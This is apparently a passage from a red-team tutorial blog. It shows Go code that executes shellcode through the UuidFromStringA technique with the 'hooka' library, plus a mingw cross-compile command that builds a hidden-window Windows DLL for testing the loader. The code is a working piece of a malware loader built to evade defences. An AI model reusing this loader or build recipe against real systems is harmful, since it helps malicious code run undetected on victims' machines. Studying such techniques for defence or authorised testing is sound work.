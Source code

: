 And last but not least we execute the obtained shellcode.

```go
fmt.Println("[*] Executing shellcode via UuidFromStringA technique...")
err = hooka.UuidFromString(shellcode)
if err != nil {
    log.Fatal(err)
}

fmt.Println("[+] Shellcode should have been executed!")
```

Let's compile the DLL we will test the loader with

```sh
$ GOARCH=amd64 GOOS=windows CGO_ENABLED=1 CC=x86_64-w64-mingw32-gcc go build -buildmode=c-shared -ldflags="-w -s -H=windowsgui" -o dll_example.dll dll_example.go
```

And after this we compile and transfer the program

<img src="https://raw.githubusercontent.com/D3Ext/d3ext.github.io/main/images/redteam/practice15/compile-2.png" alt="pic">

<img src="https://raw.githubusercontent.com/D3Ext/d3ext.github.io/main/images/redteam/practice15/demo-2.png" alt="pic">
